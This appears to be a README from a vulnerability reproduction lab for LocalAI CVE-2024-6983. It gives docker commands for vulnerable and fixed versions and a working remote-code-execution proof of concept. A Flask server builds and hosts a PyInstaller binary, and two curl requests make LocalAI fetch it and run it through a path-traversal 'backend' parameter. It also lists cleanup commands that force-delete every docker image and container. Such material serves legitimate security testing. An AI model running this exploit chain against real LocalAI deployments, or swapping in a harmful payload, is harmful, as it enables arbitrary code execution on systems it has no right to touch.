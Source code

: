 # Mudler/LocalAI CVE-2024-6983

This directory contains the deployment config for LocalAI instances vulnerable and fixed to CVE-2024-6983. LocalAI versions below 2.19.4 are vulnerable to that remote code execution vulnerability.

## How to Trigger the Vulnerability?

To trigger the vulnerability, you can use the following two curl commands and the provided Python Script. You may need to install Flask and PyInstaller via pip. Since this vulnerability requires hosting a YAML and an ELF file, the provided Python script will host these files. In a vulnerable environment, after the second curl request, you can see the created file under the /tmp/ directory.

Python Script:

```py
from flask import Flask,send_file,request
import tempfile
import PyInstaller.__main__
import os

app=Flask(__name__)

CONF="""name: "life"

download_files:
  - filename: "app.bin"
    uri: "{0}app.bin"
"""

# Builds exploit code
def build():
    CODE = 'open("/tmp/test.txt","a").write("1337")' # Python code we want to run
    appname="app.bin"
    if os.path.isfile(appname):
        return appname
    with tempfile.NamedTemporaryFile(delete=False) as fp:
        fp.write(CODE.encode())
        fp.close()
        PyInstaller.__main__.run(["--onefile","--clean","--workpath","/tmp/build/","--specpath","/tmp","--distpath",".","-n",appname,fp.name])
    return appname

# Serve model.yaml file
@app.get("/model.yaml")
def model():
    return CONF.format(request.root_url)

# Serve app.bin file
@app.get("/app.bin")
def files():
    return send_file(build())

# Start the server
app.run("0.0.0.0",8000)
```

Curl Requests:

```sh
# Run above Python script first.
python server.py

# Upload the yaml and compiled Python file
curl http://localhost:8080/models/apply -X POST -H "Content-Type: application/json" -d '{"name":"life","config_url":"http://localhost:8000/model.yaml","id":""}'

# Trigger the uploaded app.bin file via the backend parameter.
curl http://localhost:8080/embeddings -X POST -H "Content-Type: application/json" -d '{"backend":"../../../../../../build/models/app.bin","model":"life","input":"hi"}'

# Validate the created file by checking the docker inside.
docker exec -it local-ai bash --> ls /tmp/
```

In case you cannot trigger the vulnerability, you might need to delete your existing container images because Docker might try to reuse them.

```
sudo docker rmi -f $(sudo docker images -aq)
sudo docker remove $(sudo docker ps -a -q)
```
## Fixed version
```
docker run -p 8080:8080 -e "DEBUG=true" --name local-ai --network host -ti localai/localai:v2.19.4-ffmpeg-core
```

The deployed service listens on `localhost:8080` after the docker completes its job.

## Vulnerable version
```
docker run -p 8080:8080 -e "DEBUG=true" --name local-ai --network host -ti localai/localai:v2.14.0-ffmpeg-core
```

The deployed service listens on `localhost:8080` after the docker completes its job.
